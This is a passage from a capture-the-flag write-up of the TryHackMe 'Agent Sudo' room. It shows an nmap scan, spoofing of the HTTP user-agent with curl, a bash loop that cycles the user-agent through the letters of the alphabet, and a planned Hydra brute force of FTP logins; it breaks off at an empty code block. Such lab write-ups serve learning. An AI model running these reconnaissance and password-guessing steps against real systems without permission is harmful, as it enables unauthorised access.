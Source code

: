 ```yaml
---
title: "TryHackMe: Agent Sudo"
categories:
  - Blog
  - TryHackMe
tags:
  - pwn
  - root
---
```


The Nmap scan returns 3 open ports
```
└─$ nmap -sV 10.10.83.69
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-07 17:34 GMT
Nmap scan report for 10.10.83.69
Host is up (0.080s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```
I began by enumerating port 80 (HTTP) via the web browser

![image](https://github.com/user-attachments/assets/c1f4a4be-b945-4a8a-9799-75b6178b16f8)

Agent R is telling us to change our user-agent to our own codename. We can do this by changing the user-agent tag in burpsuite or using curl. For this I used curl with the user-agent "R".
```
└─$ curl -A R 10.10.83.69
What are you doing! Are you one of the 25 employees? If not, I going to report this incident
<!DocType html>
<html>
<head>
<title>Annoucement</title>
</head>
 <body>
<p>
Dear agents,
<br><br>
Use your own <b>codename</b> as user-agent to access the site.
<br><br>
From,<br>
Agent R
</p>
</body>
</html> 
```
This has yielded a differnt page to before! Through the fact agent R says "Are you one of the 25 employees?" makes me thing the agents are named alphabetically, e.g. Agent A, Agent B, Agent C, etc. We can attmept to change the user-agent to differnet characters of the alphabet, however I am going to use a bash script to automate this:
```
#!/bin/bash
for letter in {A..Z}; do
    curl -L -A $letter 10.10.83.69; echo "Letter: $letter"
done
```
Running and evaluating the results from the script, we can see that user-agent of Agent C gives a different repsonce to the others.
```
Attention chris, <br><br>
Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
From,<br>
Agent R
```
We now know that their is user named: chris, and that his password is weak. We can try to brute-force the ftp login with username "chris". To do this I will be using Hydra Password Cracker
```
```



